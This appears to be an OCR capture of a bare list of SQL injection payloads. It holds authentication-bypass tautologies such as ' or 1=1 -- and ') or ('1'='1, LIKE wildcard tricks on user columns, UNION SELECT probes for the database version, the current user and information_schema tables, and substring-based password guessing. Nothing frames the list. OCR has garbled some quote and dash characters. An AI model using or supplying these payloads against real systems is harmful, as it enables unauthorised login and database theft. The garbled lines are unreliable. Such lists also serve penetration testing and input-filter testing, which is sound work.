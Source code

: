                 ' or '1′='1
                ' or 1=1
                ' or 1=1 --
                ' or 1=1 –
                ' or 1=1;#
                ' or 1=1/*
                ' or 1=1#
                ' or 1=1–
                ') or '1'='1
                ') or '1'='1--
                ') or '1'='1'--
                ') or '1'='1'/*
                ') or '1'='1'#
                ') or ('1'='1
                ') or ('1'='1--
                ') or ('1'='1'--
                ') or ('1'='1'/*
                ') or ('1'='1'#
                'or'1=1
                'or'1=1′
                " or "1"="1
                " or "1"="1"--
                " or "1"="1"/*
                " or "1"="1"#
                " or 1=1
                " or 1=1 --
                " or 1=1 –
                " or 1=1--
                " or 1=1/*
                " or 1=1#
                " or 1=1–
                ") or "1"="1
                ") or "1"="1"--
                ") or "1"="1"/*
                ") or "1"="1"#
                ") or ("1"="1
                ") or ("1"="1"--
                ") or ("1"="1"/*
                ") or ("1"="1"#
                ) or '1′='1–
                ) or ('1′='1–
                ' or 1=1 LIMIT 1;#
                'or 1=1 or ''='
                "or 1=1 or ""="
                ' or a=a--
                ' or a=a–
                " or "a"="a
                ") or ("a"="a
                ') or ('a'='a and hi") or ("a"="a
                ' or 'one'='one
                ' or 'one'='one–
                ' or uid like '%
                ' or uname like '%
                ' or userid like '%
                ' or user like '%
                ' or username like '%
                ') or ('x'='x
                ' OR 'x'='x'#;
                '=' 'or' and '=' 'or'
                ' UNION ALL SELECT 1, @@version;#
                ' UNION ALL SELECT system_user(),user();#
                ' UNION select table_schema,table_name FROM information_Schema.tables;#
                admin' and substring(password/text(),1,1)='7
                ' and substring(password/text(),1,1)='7